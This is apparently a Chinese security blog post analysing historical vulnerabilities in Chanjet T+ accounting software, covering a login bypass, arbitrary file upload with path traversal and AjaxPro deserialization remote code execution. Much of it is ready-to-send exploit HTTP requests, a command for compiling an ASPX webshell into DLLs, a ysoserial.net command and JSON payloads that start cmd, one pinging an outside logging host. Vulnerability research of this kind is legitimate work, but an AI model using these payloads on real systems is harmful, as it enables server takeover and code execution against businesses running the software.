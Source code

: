 
畅捷通历史漏洞分析

- - -

# 畅捷通历史漏洞分析

## 文件上传

/tplus/SM/SetupAccount/Upload.aspx存在文件上传漏洞  
查看源代码文件发现其是预编译的  
[![](assets/1708940695-cf85a4801132bc55f9ed782edfd5d419.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214195901-717be9ba-cb30-1.png)  
在 bin 目录下找到其.compiled 文件  
[![](assets/1708940695-42e99db084e15f2907bc9403562eb211.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200007-98a92246-cb30-1.png)  
然后反编译 upload.aspx.9475d17f.dll，可以发现其 Page\_Load 方法 (用于处理页面加载时的操作) 中实现了文件上传功能  
只对 Content-Type 进行了校验，但未对文件上传的后缀做校验，默认保存到/SM/SetupAccount/image 目录下  
[![](assets/1708940695-ac9d738a0d17db520327d0b8bde57061.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200119-c3904d18-cb30-1.png)  
尝试进行利用会发现提示：没有登录，请登录  
[![](assets/1708940695-db4e70225d251a975068dfbb5f196b5a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200201-dccc0934-cb30-1.png)  
查看全局文件 Global.asax，其指向 Global.asax.cs 文件，类为 Ufida.T.Web.Http.Global  
[![](assets/1708940695-04dd53bba4ac851cfadc8f99e4ccbf78.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200217-e5ecf276-cb30-1.png)  
在 bin 目录中寻找 dll 文件并反编译  
[![](assets/1708940695-d695bc3ab7644b972ce1986a007bd861.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200228-ec75e22e-cb30-1.png)  
在 Ufida.T.Web.Http.Global 类中，发现上面的登录提示位于 Application\_PreRequestHandlerExecute 方法中  
[![](assets/1708940695-241871cf561561de09ddb0b5995b6a46.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200241-f434aa68-cb30-1.png)  
对 Application\_PreRequestHandlerExecute 方法进行分析，可以看到一开始就判断了，只要 flag 为 true 或者 RequestChecker.IsBaseRquest(empty) 为 true 就直接 return 了，return 了就不会执行后面的权限判断逻辑了  
[![](assets/1708940695-60eb3cc4f17f99cb380732a83d445481.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200255-fc7fa7ea-cb30-1.png)  
flag 为 true，需要传入的参数 preload 的值为 1，继续看下 IsBaseRquest 方法，设置了一些白名单的关键字，只要传入的 url 包含这些关键字就返回 true  
[![](assets/1708940695-80240a48327fd2895611171383a7c0e0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200313-07d0250c-cb31-1.png)  
很明显，我们只要传入 preload=1 就能绕过登录限制了

```plain
POST /tplus/SM/SetupAccount/Upload.aspx?preload=1 HTTP/1.1
Host: xxxxxx:xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 180
Content-Type: multipart/form-data; boundary=9df1c9e8486b0bf2a2a1bf99e7fbeb02

--9df1c9e8486b0bf2a2a1bf99e7fbeb02
Content-Disposition: form-data; name="File1"; filename="../../../1.aspx"
Content-Type: image/jpeg

test
--9df1c9e8486b0bf2a2a1bf99e7fbeb02--
```

[![](assets/1708940695-2896a384d51b1ed8524ec73dfd984ee2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200342-1917a286-cb31-1.png)  
但因为其是预编译的，所以直接上传.aspx 文件是无法解析的  
[![](assets/1708940695-6bbb0f4de39d64d103d414e8877c7cfc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200415-2c896ff2-cb31-1.png)  
可以上传编译好的 dll 到 bin 目录下进行利用

```plain
C:\WINDOWS\Microsoft.NET\Framework\v2.0.50727\aspnet_compiler.exe -v /  -p c:\3 c:\4 -fixednames
```

\-p aspx 马所在目录 编译生成文件所保存目录  
在 bin 目录下会生成如下两个文件  
[![](assets/1708940695-1dcc5d4277a084a04ad056e7e138a3f7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200454-43e46c60-cb31-1.png)  
将这两个文件传到 web 目录的 bin 目录下就行了  
前面说过，只要传入的 url 包含关键字就能返回 true 导致直接 return，所以我们也可以构造如下请求进行绕过

```plain
POST /tplus/SM/SetupAccount/Upload.aspx/;/login HTTP/1.1
Host: xxxxxx:xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 179
Content-Type: multipart/form-data; boundary=9df1c9e8486b0bf2a2a1bf99e7fbeb02

--9df1c9e8486b0bf2a2a1bf99e7fbeb02
Content-Disposition: form-data; name="File1"; filename="../../../2.txt"
Content-Type: image/jpeg

test
--9df1c9e8486b0bf2a2a1bf99e7fbeb02--
```

[![](assets/1708940695-32939d76f03b4269ade2f999985aa61a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200540-5f0ccb68-cb31-1.png)

## 反序列化

web.config 中看到使用了 ajaxpro 组件  
[![](assets/1708940695-9ca182b187839639b89aeee0e28ef45e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200638-81b097ee-cb31-1.png)  
ajaxpro 组件存在 CVE-2021-23758 漏洞，标有属性\[AjaxPro.AjaxMethod\]或\[AjaxMethod\]，并且接收 object 类型参数的方法能够 rce  
根据公开的路由：/tplus/ajaxpro/Ufida.T.CodeBehind.\_PriorityLevel,App\_Code.ashx?method=GetStoreWarehouseByStore  
查看代码可以看到 Ufida.T.CodeBehind.\_PriorityLevel 类的 GetStoreWarehouseByStore 方法刚好满足  
[![](assets/1708940695-e2df61fbcb07c5e222a21db720cad28d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200712-9642caf6-cb31-1.png)  
利用 ysoserialNet 生成 payload

```plain
ysoserial.exe -g objectdataprovider -f JavaScriptSerializer -c "calc" -o raw
```

[![](assets/1708940695-55a7e489ddbd13ce5abd7b29e2068509.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200742-a796bb8c-cb31-1.png)  
发送 poc

```plain
POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore/;/login HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
X-Ajaxpro-Method: GetStoreWarehouseByStore
Host: 192.168.37.168:8080
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-type: application/x-www-form-urlencoded
Content-Length: 604

{
  "storeID":{
    "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "ObjectInstance":{
        "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "StartInfo": {
            "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
            "FileName":"cmd", "Arguments":"/c ping d4e5b59b8a.ipv6.1433.eu.org."
        }
    }
  }
}
```

[![](assets/1708940695-47ea24b72c6a99596909b9401c5aad91.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200819-bdbb2344-cb31-1.png)  
[![](assets/1708940695-810eefd6254ef1867a4b8b984ee96e2e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200828-c311039a-cb31-1.png)  
Ufida.T.CodeBehind.\_PriorityLevel 类在 App\_Code.dll 中，在 App\_Code.dll 中进行搜索，发现 Ufida.T.CodeBehind.DR.Member.MemberIntegral.ME\_MemberIntegral\_IntegralAdjust 类的 InitInstance 方法也是满足条件的，poc 如下：

```plain
POST /tplus/ajaxpro/Ufida.T.CodeBehind.DR.Member.MemberIntegral.ME_MemberIntegral_IntegralAdjust,App_Code.ashx?method=InitInstance/;/login HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
X-Ajaxpro-Method: InitInstance
Host: 192.168.37.168:8080
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-type: application/x-www-form-urlencoded
Content-Length: 585

{
  "arges":{
    "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "ObjectInstance":{
        "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "StartInfo": {
            "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
            "FileName":"cmd", "Arguments":"/c calc"
        }
    }
  }
}
```

[![](assets/1708940695-e8745c7859bb794332fe09aa9209bda1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200856-d41e537c-cb31-1.png)  
[![](assets/1708940695-eef065c28a90c8f8c696eca0581ea0c9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200904-d8fa044a-cb31-1.png)

## 参考

[https://www.ctfiot.com/16694.html](https://www.ctfiot.com/16694.html)
